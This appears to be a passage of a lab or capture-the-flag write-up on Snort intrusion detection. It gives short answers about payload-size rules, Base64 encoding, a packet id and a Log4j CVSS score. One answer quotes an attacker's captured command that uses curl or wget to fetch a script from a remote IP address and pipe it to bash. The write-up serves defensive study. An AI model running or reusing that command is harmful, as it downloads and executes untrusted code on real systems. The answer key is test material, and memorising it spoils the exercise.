

#### Question 5: Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

**Answer** 41




#### Question 6: What is the encoding format?

**Answer:** Base64




#### Question 7: What is the id of the packet

**Answer:** 21003728

#### Question 8: What is the Attackers command?

**Answer:** (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash






#### Question 9: Log4j CVSS Vulnerability

**Answer** 9.3

